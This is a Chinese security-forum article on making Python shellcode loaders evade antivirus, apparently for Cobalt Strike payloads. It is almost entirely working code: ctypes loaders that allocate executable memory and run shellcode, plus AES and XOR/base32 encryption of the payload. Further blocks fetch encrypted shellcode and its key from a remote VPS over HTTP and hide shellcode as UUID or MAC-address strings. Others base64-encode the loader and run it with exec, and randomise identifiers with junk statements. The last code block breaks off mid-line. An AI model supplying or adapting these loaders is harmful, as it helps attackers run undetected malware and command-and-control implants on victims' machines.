






# python shellcode免杀的常用手法-先知社区

> **来源**: https://xz.aliyun.com/news/16548  
> **文章ID**: 16548

---

# python 加载shellcode的原理

用CS生成一个python shellcode  
  
内存加载器原理都是一个流程：申请可执行内存 -> shellcode写入内存 -> 执行该内存

## 分配可执行内存

为了执行 shellcode，必须将其放置在一个具有可执行权限的内存区域中。这可以通过调用 Windows API 函数 `VirtualAlloc` 来完成

```
import ctypes # 分配可执行内存 
rwxpage = ctypes.windll.kernel32.VirtualAlloc( 
ctypes.c_int(0), # 地址（0 表示让系统选择） 
ctypes.c_size_t(len(shellcode)), # 大小
ctypes.c_uint(0x3000), # MEM_COMMIT | MEM_RESERVE 
ctypes.c_uint(0x40) # PAGE_EXECUTE_READWRITE )
```

## 将 Shellcode 复制到分配的内存

一旦内存被正确分配并且具有正确的保护属性，就可以将 shellcode 复制到这块内存中。这通常通过调用 `RtlMoveMemory` 函数来完成，它相当于 C 语言中的 `memcpy`

```
# 设置 RtlMoveMemory 的参数类型和返回类型 ctypes.windll.kernel32.RtlMoveMemory.argtypes = ( 
ctypes.c_void_p, # Destination 
ctypes.c_void_p, # 
Source ctypes.c_size_t # Length 
) 
ctypes.windll.kernel32.RtlMoveMemory.restype = None
# 创建一个字符串缓冲区并复制 shellcode 
buffer = ctypes.create_string_buffer(shellcode) ctypes.windll.kernel32.RtlMoveMemory( 
ctypes.c_void_p(rwxpage), 
buffer,
ctypes.c_size_t(len(shellcode)) 
)
```

## 创建线程执行 Shellcode

为了执行位于分配内存中的 shellcode，需要创建一个新的线程，并将新线程的起始地址设置为包含 shellcode 的内存地址。这可以通过调用 `CreateThread` 函数来完成。

```
handle = ctypes.windll.kernel32.CreateThread( 
None, # lpThreadAttributes 
0, # dwStackSize 
ctypes.c_void_p(rwxpage), # lpStartAddress 
None, # lpParameter 
0, # dwCreationFlags 
ctypes.byref(ctypes.c_ulong()) # lpThreadId 
)
```

## 等待线程结束并清理资源

创建线程后，可以选择等待线程结束，然后释放分配的内存。

```
# 等待线程结束 
ctypes.windll.kernel32.WaitForSingleObject(handle, -1) 
# 清理资源 
ctypes.windll.kernel32.VirtualFree(ctypes.c_void_p(rwxpage), 0, 0x8000) # MEM_RELEASE
```

## 原始shellcode加载的两种方式

```
import ctypes
shellcode = b''
rwxpage = ctypes.windll.kernel32.VirtualAlloc(0, len(shellcode), 0x1000, 0x40)
ctypes.windll.kernel32.RtlMoveMemory(rwxpage, ctypes.create_string_buffer(shellcode), len(shellcode))
handle = ctypes.windll.kernel32.CreateThread(0, 0, rwxpage, 0, 0, 0)
ctypes.windll.kernel32.WaitForSingleObject(handle, -1)
```

```
import ctypes
data=b''
bdata = bytearray(data)
ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_int

ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0), ctypes.c_int(len(bdata)), ctypes.c_int(0x3000),ctypes.c_int(0x40))

buf = (ctypes.c_char * len(bdata)).from_buffer(bdata)
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(ptr),buf,ctypes.c_int(len(bdata)))

handle = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),ctypes.c_int(0),ctypes.c_int(ptr),ctypes.c_int(0),ctypes.c_int(0),ctypes.pointer(ctypes.c_int(0)))

ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle), ctypes.c_int(-1))

```

上面两种是肯定会被杀的  
免杀无非就是两种方式  
1.对shellcode做文章  
2.对运行代码的加载器做文章

# 对shellcode进行加密

## base64

```
import ctypes
import base64

s = b'‘
shellcode = base64.b64decode(s)
rwxpage = ctypes.windll.kernel32.VirtualAlloc(0, len(shellcode), 0x1000, 0x40)
ctypes.windll.kernel32.RtlMoveMemory(rwxpage, ctypes.create_string_buffer(shellcode), len(shellcode))
handle = ctypes.windll.kernel32.CreateThread(0, 0, rwxpage, 0, 0, 0)
ctypes.windll.kernel32.WaitForSingleObject(handle, -1)

```

这个也是被杀的

## AES

加密解密函数分开写

```
from base64 import b64encode
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
from Crypto.Random import get_random_bytes

shellcode = b""

key = get_random_bytes(16)
cipher = AES.new(key, AES.MODE_CBC)
ct_bytes = cipher.encrypt(pad(shellcode, AES.block_size))
iv = b64encode(cipher.iv).decode('utf-8')
ct = b64encode(ct_bytes).decode('utf-8')

print('iv: \n {} \n key:\n {} \n ase_shellcode:\n {} \n'.format(iv,key,ct))

```



```
import ctypes
from base64 import b64decode
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

#把加密代码输出的结果填到下面
iv='xxx'
key=b'xxx'
ase_shellcode='xxx'

iv = b64decode(iv)
ase_shellcode = b64decode(ase_shellcode)
cipher = AES.new(key, AES.MODE_CBC, iv)

shellcode = bytearray(unpad(cipher.decrypt(ase_shellcode), AES.block_size))

# 设置VirtualAlloc返回类型为ctypes.c_uint64
ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64

# 申请内存：调用kernel32.dll动态链接库中的VirtualAlloc函数申请内存
ptr = ctypes.windll.kernel32.VirtualAlloc(
    ctypes.c_int(0),  #要分配的内存区域的地址
    ctypes.c_int(len(shellcode)), #分配的大小
    ctypes.c_int(0x3000),  #分配的类型，0x3000代表MEM_COMMIT | MEM_RESERVE
    ctypes.c_int(0x40) #该内存的初始保护属性，0x40代表可读可写可执行属性
    )

# 调用kernel32.dll动态链接库中的RtlMoveMemory函数将shellcode移动到申请的内存中
buffered = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(
    ctypes.c_uint64(ptr),
    buffered,
    ctypes.c_int(len(shellcode))
)

# 创建一个线程从shellcode放置位置首地址开始执行
handle = ctypes.windll.kernel32.CreateThread(
    ctypes.c_int(0), #指向安全属性的指针
    ctypes.c_int(0), #初始堆栈大小
    ctypes.c_uint64(ptr), #指向起始地址的指针
    ctypes.c_int(0), #指向任何参数的指针
    ctypes.c_int(0), #创建标志
    ctypes.pointer(ctypes.c_int(0)) #指向接收线程标识符的值的指针
)

# 等待上面创建的线程运行完
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle),ctypes.c_int(-1))

```

## shellcode 编码加密混淆

用base32 + base16 + hex 进行编码，最后做一次异或加密  
加密脚本：

```
# -*- coding: UTF-8 -*-
import string
import base64
import random
from sys import version_info


def encrypt(buf, key):
    """shellcode混淆加密"""
    shellcode1 = base64.b32encode(buf)
    # base16 编码
    shellcode2 = base64.b16encode(shellcode1)
    # hex编码
    if version_info >= (3,0):
        shellcode3 = shellcode2.hex() # python3
    else:
        shellcode3 = shellcode2.encode('hex') # python2
    # 设置随机数
    random.seed(key)
    # 异或加密
    shellcode = ''
    for i in shellcode3:
        shellcode = shellcode + str(ord(i) ^ random.randint(0, 255)) + "."
    return shellcode.rstrip('.')


def random_key(length):
    """随机生成6位key"""
    numOfNum = random.randint(1, length-1)
    numOfLetter = length - numOfNum
    slcNum = [random.choice(string.digits) for i in range(numOfNum)]
    slcLetter = [random.choice(string.ascii_letters) for i in range(numOfLetter)]
    slcChar = slcNum + slcLetter
    random.shuffle(slcChar)
    getPwd = ''.join([i for i in slcChar])
    return getPwd


if __name__ == "__main__":
    # shellcode内容
    shellcode = b""
    # 随机数key
    key = random_key(6)
    # 编码加密混淆
    data = encrypt(shellcode, key)
    print("key: " + key)
    print("shellcode: " + data)

```

  
加载代码：

```
# -*- coding: UTF-8 -*-
import ctypes
import base64
import random
from sys import version_info


def decrypt(code, key):
    # 异或解密
    random.seed(key)
    xor_code = code.split('.')
    res_code = ''
    for i in xor_code:
        res_code = res_code + chr(int(i) ^ random.randint(0, 255))
    # 三重解码
    if version_info >= (3,0):
        shellcode = bytes.fromhex(res_code)
    else:
        shellcode = res_code.decode('hex')
    shellcode = base64.b16decode(shellcode)
    shellcode = base64.b32decode(shellcode)
    # 返回shellcode
    return shellcode

def runcode(shellcode):
    # 加载shellcode
    ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64 
    rwxpage = ctypes.windll.kernel32.VirtualAlloc(0, len(shellcode), 0x1000, 0x40)
    ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_uint64(rwxpage), ctypes.create_string_buffer(shellcode), len(shellcode))
    handle = ctypes.windll.kernel32.CreateThread(0, 0, ctypes.c_uint64(rwxpage), 0, 0, 0)
    ctypes.windll.kernel32.WaitForSingleObject(handle, -1)

if __name__ == "__main__":
    # 混淆的shellcode
    code = ""
    # 随机数key
    key: str = 'B4s81a'
    # 解码
    shellcode = decrypt(code, key)
    runcode(shellcode)

```

## shellcode 远程/本地加载

把编码或加密后的shellcode保存到VPS上，然后用远程方式进行加载  
用前面的方法先将shellcode混淆，然后将生成的 shellcode 和 key 分别保存放到VPS上，最后用python开个web服务

```
import ctypes
import base64
import random
from sys import version_info
from urllib.request import urlopen


def decrypt(code, key):
    # 设置随机数
    random.seed(key)
    # 异或解密
    xor_code = code.split('.')
    res_code = ''
    for i in xor_code:
        res_code = f"{res_code}{chr(int(i) ^ random.randint(0, 255))}"
    # 三重解码
    if version_info >= (3,0):
        shellcode = bytes.fromhex(res_code)
    else:
        shellcode = res_code.decode('hex')
    shellcode = base64.b16decode(shellcode)
    shellcode = base64.b32decode(shellcode)
    return shellcode


def runcode(shellcode):
    ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64 
    rwxpage = ctypes.windll.kernel32.VirtualAlloc(0, len(shellcode), 0x1000, 0x40)
    ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_uint64(rwxpage), ctypes.create_string_buffer(shellcode), len(shellcode))
    handle = ctypes.windll.kernel32.CreateThread(0, 0, ctypes.c_uint64(rwxpage), 0, 0, 0)
    ctypes.windll.kernel32.WaitForSingleObject(handle, -1)


def get_data(url_shellcode, url_key):
    """远程获取shellcode"""
    if version_info >= (3,0):
        from urllib.request import urlopen
    else:
        from urllib2 import urlopen
    # 远程加载shellcode, key
    key = urlopen(url_key).read().decode()
    shellcode = urlopen(url_shellcode).read().decode()
    return shellcode, key


if __name__ == "__main__":
    url_shellcode = "http://ip:8000/shellcode.txt"
    url_key = "http://ip:8000/key.txt"
    # 远程加载
    shellcode, key = get_data(url_shellcode, url_key)
    # 解码
    shellcode = decrypt(shellcode, key)
    # 加载shellcode
    runcode(shellcode)

```

## uuid实现内存加载

```
import uuid

buf = b"\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\"

# 如果不能被16整除，就补充剩余的字节
if len(buf) % 16 != 0:
    replenish_byte = b"\x00" * (16 - len(buf) % 16)
buf = buf + replenish_byte 

# 字节转uuid
shellcode = []
for i in range(len(buf) // 16):
    bytes_a = buf[i * 16:16 + i * 16]
    b = uuid.UUID(bytes_le=bytes_a)
    shellcode.append(str(b))
print(shellcode)

```

然后再编译

```
import ctypes

shellcode = ['e48348fc-e8f0-00c8-0000-415141505251', 'd2314856-4865-528b-6048-8b5218488b52', ...]

rwxpage = ctypes.windll.kernel32.VirtualAlloc(0, len(shellcode) * 16, 0x1000, 0x40)

rwxpage1 = rwxpage
for i in shellcode:
    ctypes.windll.Rpcrt4.UuidFromStringA(i, rwxpage1)
    rwxpage1 += 16

handle = ctypes.windll.kernel32.CreateThread(0, 0, rwxpage, 0, 0, 0)

ctypes.windll.kernel32.WaitForSingleObject(handle, -1)

```

### MAC实现内存加载

```
# -*- coding: UTF-8 -*-
import ctypes

buf = b"\xfc\x48\x83\xe4\xf0\xe8\xc8\x00..."

# 如果不能被6整除，就补充剩余的字节
if len(buf) % 6 != 0:
    replenish_byte = b"\x00" * (6 - len(buf) % 6)
    buf = buf + replenish_byte

# 申请内存
macmem = ctypes.windll.kernel32.VirtualAlloc(0, len(buf)/6*17, 0x1000, 0x40)

for i in range(len(buf)/6):
     bytes_a = buf[i*6:6+i*6]
     ctypes.windll.Ntdll.RtlEthernetAddressToStringA(bytes_a, macmem+i*17)

#a = ctypes.string_at(macmem, len(buf) * 3 - 1)
#print(a)

mac = []
for i in range(len(buf)/6):
    d = ctypes.string_at(macmem+i*17,17)
    mac.append(d)
print(mac)

```

加载代码：

```
# -*- coding: UTF-8 -*-
import ctypes

mac = ['FC-48-83-E4-F0-E8', 'C8-00-00-00-41-51', ...]

ptr = ctypes.windll.kernel32.VirtualAlloc(0, len(mac) * 6, 0x1000, 0x40)

# 通过RtlEthernetStringToAddressA函数，将mac值转为二进制写入内存rwxpage是内存指针，表示从该指针位置写入rwxpage+=6是控制指针的位置，每写入一个mac二进制需要将指针移动6个字节
rwxpage = ptr
for i in range(len(mac)):
    ctypes.windll.Ntdll.RtlEthernetStringToAddressA(mac[i], mac[i], rwxpage)
    rwxpage += 6

ctypes.windll.kernel32.VirtualProtect(ptr, len(mac) * 6, 0x40, ctypes.byref(ctypes.c_long(1)))

handle = ctypes.windll.kernel32.CreateThread(0, 0, ptr, 0, 0, 0)

ctypes.windll.kernel32.WaitForSingleObject(handle, -1)

```

# 加载器代码混淆

### base64

对加载shellcode部分代码进行base64编码

```
import base64
import ctypes

buf = base64.b64decode(b'/EiD5PDoyAAAAEF......')

base64_loader = base64.b64decode(b'CnNoZWxsY29kZSA9IGJ5dGVhcnJheShidWYpCmN0eXBlcy53aW5kbGwua2VybmVsMzIuVmlydHVhbEFsbG9jLnJlc3R5cGUgPSBjdHlwZXMuY191aW50NjQKcHRyID0gY3R5cGVzLndpbmRsbC5rZXJuZWwzMi5WaXJ0dWFsQWxsb2MoY3R5cGVzLmNfaW50KDApLCBjdHlwZXMuY19pbnQobGVuKHNoZWxsY29kZSkpLCBjdHlwZXMuY19pbnQoMHgzMDAwKSwgY3R5cGVzLmNfaW50KDB4NDApKQpidWYgPSAoY3R5cGVzLmNfY2hhciAqIGxlbihzaGVsbGNvZGUpKS5mcm9tX2J1ZmZlcihzaGVsbGNvZGUpCmN0eXBlcy53aW5kbGwua2VybmVsMzIuUnRsTW92ZU1lbW9yeSgKICAgIGN0eXBlcy5jX3VpbnQ2NChwdHIpLAogICAgYnVmLAogICAgY3R5cGVzLmNfaW50KGxlbihzaGVsbGNvZGUpKQopCmhhbmRsZSA9IGN0eXBlcy53aW5kbGwua2VybmVsMzIuQ3JlYXRlVGhyZWFkKAogICAgY3R5cGVzLmNfaW50KDApLAogICAgY3R5cGVzLmNfaW50KDApLAogICAgY3R5cGVzLmNfdWludDY0KHB0ciksCiAgICBjdHlwZXMuY19pbnQoMCksCiAgICBjdHlwZXMuY19pbnQoMCksCiAgICBjdHlwZXMucG9pbnRlcihjdHlwZXMuY19pbnQoMCkpCikKY3R5cGVzLndpbmRsbC5rZXJuZWwzMi5XYWl0Rm9yU2luZ2xlT2JqZWN0KGN0eXBlcy5jX2ludChoYW5kbGUpLGN0eXBlcy5jX2ludCgtMSkpCg==').decode()
exec(base64_loader)

```

运行即可上线

### 对加载器变量名进行随机生成

```
import random
import string

class AutoRandom:
    def auto_random_int(self,max_int=999,min_int=0):
        return random.randint(min_int,max_int)

    def auto_random_str(self,min_length=8,max_length=15):
        length=random.randint(min_length,max_length)
        return ''.join(random.choice(string.ascii_letters) for x in range(length))

    def auto_random_void_command(self,min_str=500,max_str=1000,min_int=1,max_ini=9):
        void_command = [
            #'print("var1")'.replace('var1',str(self.auto_random_int(999999))),
            'var1 = var2 + var3'.replace('var1',self.auto_random_str(min_str,max_str)).replace('var2',str(self.auto_random_int(99999))).replace('var3',str(self.auto_random_int(99999))),
            'var1 = var2 - var3'.replace('var1',self.auto_random_str(min_str,max_str)).replace('var2',str(self.auto_random_int(99999))).replace('var3',str(self.auto_random_int(99999))),
            'var1 = var2 * var3'.replace('var1',self.auto_random_str(min_str,max_str)).replace('var2',str(self.auto_random_int(99999))).replace('var3',str(self.auto_random_int(99999))),
            'var1 = var2 / var3'.replace('var1',self.auto_random_str(min_str,max_str)).replace('var2',str(self.auto_random_int(99999))).replace('var3',str(self.auto_random_int(99999))),
            'var1 = "var2" + "var3"'.replace('var1',self.auto_random_str(min_str,max_str)).replace('var2',self.auto_random_str(min_str,max_str)).replace('var3',self.auto_random_str(min_str,max_str)),
            'print("var1")'.replace('var1',self.auto_random_str(min_str,max_str))
            ]
        return void_command[self.auto_random_int(len(void_command)-1)]

def make_variable_random(shellcodeloader):
    shellcodeloader = shellcodeloader.replace("ctypes", AutoRandom.auto_random_str(min_length=8, max_length=15))
    shellcodeloader = shellcodeloader.replace("shellcode",AutoRandom.auto_random_str(min_length=8,max_length=15))
    shellcodeloader = shellcodeloader.replace("ptr", AutoRandom.auto_random_str(min_length=8, max_length=15))
    shellcodeloader = shellcodeloader.replace("buffered", AutoRandom.auto_random_str(min_length=8, max_length=15))
    shellcodeloader = shellcodeloader.replace("handle", AutoRandom.auto_random_str(min_length=8, max_length=15))
    return shellcodeloader

def make_command_random(shellcodeloader):
    shellcodeloader = shellcodeloader.replace("command1", AutoRandom.auto_random_void_command())
    shellcodeloader = shellcodeloader.replace("command2", AutoRandom.auto_random_void_command())
    shellcodeloader = shellcodeloader.replace("command3", AutoRandom.auto_random_void_command())
    shellcodeloader = shellcodeloader.replace("command4", AutoRandom.auto_random_void_command())
    shellcodeloader = shellcodeloader.replace("command5", AutoRandom.auto_random_void_command())
    shellcodeloader = shellcodeloader.replace("command6", AutoRandom.auto_random_void_command())
    shellcodeloader = shellcodeloader.replace("command7", AutoRandom.auto_random_void_command())
    return shellcodeloader

if __name__ == '__main__':
    AutoRandom = AutoRandom()
    shellcodeloader = '''
command1
shellcode=bytearray(b"x")
command2
ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64
command3
ptr = ctypes.windll.kernel32.VirtualAlloc(
    ctypes.c_int(0),
    ctypes.c_int(len(shellcode)),
    ctypes.c_int(0x3000),
    ctypes.c_int(0x40)
)
command4
buffered = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
command5
ctypes.windll.kernel32.RtlMoveMemory(
    ctypes.c_uint64(ptr),
    buffered,
    ctypes.c_int(len(shellcode))
)
command6
handle = ctypes.windll.kernel32.CreateThread(
    ctypes.c_int(0),
    ctypes.c_int(0),
    ctypes.c_uint64(ptr),
    ctypes.c_int(0),
    ctypes.c_int(0),
    ctypes.pointer(ctypes.c_int(0))
)
command7
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle), ctypes.c_int(-1))   
'''

    shellcodeloader = make_variable_random(shellcodeloader)
    shellcodeloader = make_command_random(shellcodeloader)

    print(shellcodeloader)

```

首先创建了AutoRandom类的一个实例。然后定义了一段包含Windows API调用的Python代码字符串shellcodeloader。接下来，这段代码经过两次转换：先调用make\_variable\_random随机化变量名，再调用make\_command\_random插入随机的无意义命令。最后，混淆后的代码被打印出来。

  
将生成的代码复制出来，根据生成的随机数，给ctypes库起个别名

```
import ctypes as wfsrpRxlfVnnz
UkAEqKTD=bytearray(b'xxx')
DgHYceKeqQugpgQZdNmDbJhBzSdQdhbKqfFpBqWxTLFMEvXHqWhNvXyxjoAYDyJxEgVHZGgmIRWvnnBrbjkveVXXtqeTfgyltvtcZfsjyuHJhlaVfXVOkhwKGxKGRHzEERENcgNizeywHyRvwDCLxTYbojHgqoULHRtlJkTVcPWXHsGonfLxHhheSuxWkEpiUzmSaWUqCcAaUXweuquuiadLotmPrHHDjcMoWbRnlEvPqnEXlwUXKRXrhEhGjelXoKXJiZFCGXMrmvMEsicCliejlPsRlBKLSqyypyHqZTMeMTVlPBSVMMpNxIWzKFaSQtqMFXUrmoMnmLBAJvDGHjcTMucoqLWbyWUvCbiTdKWxsGutrEDoQDyMCtQDRfyNLJcsOCPgZSkHUlsVenQpCazUmvUcuQFNXOcioyXbXWSNjIinNiaMuRfYdJzeCDfpeCOXhIEUTKyPECJOlFqAQAgZLJjEfqtKZFuSBOtuXOoZLsUcPksKPkEdgbixsZCZiRBDLXplZpTsFHMQGySQPHjrjicEkveqtZIObmtgenBSstHbiNZRZltOitOCNtYFdXNcoOJTyZWlCnnhjuoIOtPNmGlxadZjFPqqaRUMvLdJvMLTeLLJJujXoOVPcJnvMCdDFwsFEZCpmSNmXZCaPfEuEGenwjqXZzCCKknKEhTRRSkILHGnjdGDPgPdvVuiSIcKnNqNyWJYcufajXUrMzxJihBf = 4000 * 55629
wfsrpRxlfVnnz.windll.kernel32.VirtualAlloc.restype = wfsrpRxlfVnnz.c_uint64
evAQzwpfiTGNTXsFltkJnOlJgDcMDlzLgJGVRYbJkDDEHJrhcwjOmCYakqqIOBtPvyMbEWTuHtdKvzYTiKtQgDzhXdvSOPdmNXiyvWbHmdFkSVuBrvWwiARlGLOdJwHKOEMkFmTQuHXLOMsvVKJbDdZFuWZwyBtCKeiFGrFVzDpgsiViGZrUXOjeBWprTJVNVhjfKPrIVXShKawJHpDomKKWiAzDHoSCPfbMJHQEglQcHjeFEbQueCSRsxpogxEidnsimCZTTRoQZCdqyUAaLGXJzfsMRbPGcRXSeAjsGkuvZlHCVQJaNdYlEdThXLITdkrzuVumaKByVDDZcTtVpTtjHJfRCCswdbUluRcaTWQhVkLSPLfdnmRSoAuPEhdrEMnjFYVasZbAlyreGAqjPifxONzduTsUYnBbMqswzJppbWmfARqoLBTbRdIutJzuEvMozWlMTwXqltEVQtEjMTsLJjjTOzrcIGGeTNbhKYTfjyxmpIZMqYpHxqYxKNYOsXxboQNpqZrqIDThDDSfFBhHAPbHwdZLVPqVxJvXnzdFYQXtHnxKCnSGeKJikdqUCAaVhFmdGHliLYjEVtxluVexMKITqArAPZnZcircCnwsPRequqmEpqaVoIzivmrdZWNoYgTLjeDlRNnXxLCrf = 89165 - 62612
WsfUYSwsdQ = wfsrpRxlfVnnz.windll.kernel32.VirtualAlloc(
    wfsrpRxlfVnnz.c_int(0),
    wfsrpRxlfVnnz.c_int(len(UkAEqKTD)),
    wfsrpRxlfVnnz.c_int(0x3000),
    wfsrpRxlfVnnz.c_int(0x40)
)
ncInVtjdwrjmUUFWOvRcXwjztkySXNvNrAttMSqLnTbaJOEEZPGRiYYbcKfXZlYrjYZxmPOKEppJtiuRzFvebeAcbBXNSRPvbRWMKLlTDXNJYlfSIrtXCaGTiyeAHVfDqllEFDDRHMPIhsjgsPfNqjjYrDgCjHYtStJgSfhSQXePVqqpxrMQpVBLMXUvArJqDGSowlmFXgcyroYtbzCjSolZQfUueVmHkMjXXqIoqmvonqodxOoXZmUxsZbAAHKhdBluTtDbnIwrCyKApFQWDfsmVCDmDgujaqYtEGRWGtOUVewfbyVQlnUiJJziRDAooUnwDTKXwGdCVZNaXjsKfYhqAhMvrsvHolLAMvlACwZkcEQQijoAqfdvHBsmZXUzhnWmQNQsZNEgUDWAvcSfMlGGIihVvIHIEQhzGBhVKcaIsfraweQqZwovBtmZwKrPTuOAoqWRkRDasZCPRkTJhaXGNVIvWeAYiSUyqZZgyByqKKspKFbPgthvKtaQbCmrCsaLSJuQlnjGeXaEQQuonUqnRDXRmwFpvsacRkCSlWTNjTVFyEZrPGEMfOzlMNsWFPzCZqXlbzQdpFrUfqxUXptpDNirdZOgavLpsvTSbKWNCJwXdwmqmtpSKLDNZJxjpToBAecLVzuUZNWtyINYDgtijqTfsTAxlYYRaDgwpEkTlPzpnJyFnbpXBjKrgSHMwIKWTNwwkPRjSreTMNAHWNtohnZHGArejPTqmSjBvYoM = 65956 - 47294
dSDhkNTP = (wfsrpRxlfVnnz.c_char * len(UkAEqKTD)).from_buffer(UkAEqKTD)
WbHaQmSzPPTcElgsnYgxLitHrNpAPHaajtBnZsSZSbmtJhNkjzhlYFnCpnrzCCyIfDyYLWIXiiWBvFfWujtLklOnOxGEarTukrqsyfvSecNPeOHPEUTlVyobkkfMuYthoqSmmwONbxobRrVrMELlueNyAUzdzNVPmpVTXowuNOxBbjMcaAdwogWTIsJRulfeHrTKyDfoPogeSjanfXOWDouwJXlLeSwJwTwWpuMwrETFbxjMlSLXzCJiWJQEgoQlXQurSdiqIPVpNstqQuJNDvNvxqsEaZdMhZObXIrziKnqItLspgsUEWtaRMzGxACYXmPsoGpoVhnLOlHJUUuBlBxUQMIkBUTlSZgkfRAueLaacDoATmlkKDgtaAMvfegiOJCrrBUOyYgFInlOCSSnkFpsvxWQyoMkoGTNPhvFxokcNSOgbJVgJlxOUZPMvCLremiShLGJxyhULTdpOniKYrRowumaTLHIkkQDgKuzZSBdxKMJGcXkwFPXRfuFdnOWXdQGIXAYkKhslrhzKjxuahimZwfBMyZvuHxOzQtPGFlHqQxIBuElkferwOrFywJLNMjfsqqTygQhhzjgxTNfOjVqOhiWTapReDBjsEJLIZfiKPLmmqHFssgiStvkenTkybSuVPZVcakYzqibaKAobWopcVQZTePnASQCRvpaOruDteDuiifAAeKZqkaooCfudPUFUPgNucbPbsfRNcetjRZyZqrxywRtvQKAQBAiRIuUrkSFIbbikNfHhpzPgHEWIsfRPLMnMa